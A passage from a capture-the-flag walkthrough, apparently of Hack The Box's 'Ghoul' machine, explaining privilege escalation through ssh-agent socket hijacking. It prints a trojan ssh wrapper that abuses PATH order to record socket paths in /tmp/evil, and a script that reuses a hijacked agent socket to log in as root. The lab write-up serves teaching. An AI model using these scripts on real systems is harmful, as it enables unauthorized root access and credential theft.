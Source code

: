 ```
#   Port 22
#   Protocol 2
#   Ciphers aes128-ctr,aes192-ctr,aes256-ctr,aes128-cbc,3des-cbc
#   MACs hmac-md5,hmac-sha1,umac-64@openssh.com
#   EscapeChar ~
#   Tunnel no
#   TunnelDevice any:any
#   PermitLocalCommand no
#   VisualHostKey no
#   ProxyCommand ssh -q -W %h:%p gateway.example.com
#   RekeyLimit 1G 1h
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
```

This can only mean one thing: someone in the `docker` host has a private key stored in the memory of a `ssh-agent`, which makes SSH login to a destination server through an intermediate server painless and password-less. However, in the event the intermediate server is compromised, an attacker can easily hijack the Unix socket used for communicating with the agent for nefarious purposes.

Towards that end, I switched the actual `ssh` at `/usr/bin/ssh` for a "fake" `ssh` at `/usr/local/bin/ssh`, which is nothing more than the following script.

```bash
#!/bin/bash

/usr/bin/ssh $@; find / -type s 2>/dev/null >/tmp/evil
```

Check out the `PATH` environment variable.

<a class="image-popup">
![aa4719db.png](/assets/images/posts/ghoul-htb-walkthrough/aa4719db.png)
</a>

Notice that `/usr/local/bin` is at a higher executable search priority than `/usr/bin`?

Once the "fake" `ssh` is executed, the path to the Unix socket used for communicating with the agent is saved to `/tmp/evil`.

We can set up a `watch` on `w` to monitor who logs in to `kaneki-pc`. The moment `kaneki_adm` logs in to execute `ssh root@172.18.0.1 -p 2222 -t ./log.sh`, we\'ll execute the following script to hijack that socket and use it to log in as `root` to `172.18.0.1` at `2222/tcp`.

```bash
#!/bin/bash

export SSH_AUTH_SOCK=$(cat /tmp/evil)

ssh root@172.18.0.1 -p 2222
```

